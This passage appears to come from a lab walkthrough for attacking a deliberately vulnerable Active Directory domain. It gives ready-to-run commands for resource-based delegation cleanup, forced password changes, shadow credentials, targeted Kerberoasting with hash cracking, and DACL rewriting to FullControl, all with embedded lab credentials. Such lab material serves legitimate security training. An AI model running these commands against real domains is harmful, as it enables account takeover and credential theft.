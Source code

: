 - After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:
```
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'flush' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/cersei.lannister:il0vejaime' -delete
```

# ACL
## ForceChangePassword 
- As tywin.lannister we will change jaime.lannister password
`net rpc password jaime.lannister -U sevenkingdoms.local/tywin.lannister%powerkingftw135 -S kingslanding.sevenkingdoms.local`

## GenericWrite on User
This could be abuse with 3 different technics :

- shadowCredentials (windows server 2016 or +)
- targetKerberoasting (password should be weak enough to be cracked)
- logonScript (this need a user connection and to be honest it never worked or unless with a script already inside sysvol)

### Shadow Credentials
`certipy shadow auto -u jaime.lannister@sevenkingdoms.local -p 'pasdebraspasdechocolat' -account 'joffrey.baratheon'`


### Target Kerberoasting (https://github.com/ShutdownRepo/targetedKerberoast)
The principe is simple. Add an SPN to the user, ask for a tgs, remove the SPN on the user. And crack the TGS just like a classic kerberoasting.
`targetedKerberoast.py -v -d sevenkingdoms.local -u jaime.lannister -p pasdebraspasdechocolat --request-user joffrey.baratheon`
crack the hash
`hashcat -m 13100 -a 0 joffrey.hash rockyou.txt --force`

## WriteDacl on User
To exploit writeDacl from Joffrey to Tyron we can use acledit.py
```
git clone https://github.com/ThePorgs/impacket.git
cd impacket 
python3 setup.py install

dacledit.py -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'

#now change the permission to “FullControl” and see the modification
dacledit.py -action 'write' -rights 'FullControl' -principal joffrey.baratheon  -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'

certipy shadow auto -u joffrey.baratheon@sevenkingdoms.local -p '1killerlion' -account 'tyron.lannister'
```
